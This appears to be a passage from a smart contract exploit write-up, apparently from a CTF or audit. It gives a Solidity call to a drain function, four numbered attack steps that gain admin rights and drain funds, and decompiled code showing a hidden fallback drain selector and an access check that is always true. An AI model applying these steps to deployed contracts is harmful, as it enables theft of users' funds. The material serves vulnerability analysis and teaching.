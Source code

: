 ```solidity
// Step 4: Drain as admin
(bool drainSuccess, ) = TARGET_CONTRACT.call(
    abi.encodeWithSelector(DRAIN_SELECTOR)
);
```

**Attack Steps:**
1. Solve puzzle with `[1,2,3,6]` to enable the store function
2. Call `store("status", 1)` to activate admin/drain mechanisms
3. Call `getAccess(0)` to exploit logical flaw and gain admin privileges
4. Call `0xb70b232d` drain function as admin

**Result:** ✅ **SUCCESS**

<br >

---


## Critical Vulnerability Recap

The contract contains multiple severe vulnerabilities that enable different attack vectors:


#### 1. Hidden Fallback Selector (`0xb5d09fae`)
The contract contains a hidden drain function accessible through a specific fallback selector:

```solidity
if (!(bytes4(v0) - bytes4(0xb5d09fae7b7af1adf48400132f74ac6d1d5d2e965dfd4f7405cdb9262d87938f))) {
    v2 = 0x525('status');
    require(_receive[v2] - 0, Locked());
    v3 = 0x525('status');
    _receive[v3] = 0;
    emit 0xf25030dea1ced040053b39f74d7a42dd30b2ff8a6c4206fa98f9fceb666cab08(msg.sender, this.balance);
}
```

This allows direct fund drainage when the status is activated, bypassing normal access controls.

#### 2. Access Control Logic Flaw (`getAccess`)
The `getAccess()` function contains a critical logical vulnerability:

```solidity
function getAccess(uint256 _id) public nonPayable { 
    v1 = v2 = _id == keccak256(block.timestamp / 1000, msg.sender, 'access') % 10 ** 6;
    if (_id != keccak256(block.timestamp / 1000, msg.sender, 'access') % 10 ** 6) {
        v1 = uint256(_id ^ 0x42) == _id ^ 0x42;  // Always evaluates to true!
    }
    if (v1) {
        v3 = 0x525('admin');
        mapping_1[msg.sender] = v3; // Grant admin privileges
        emit AccessGranted(msg.sender);
    }
}
```

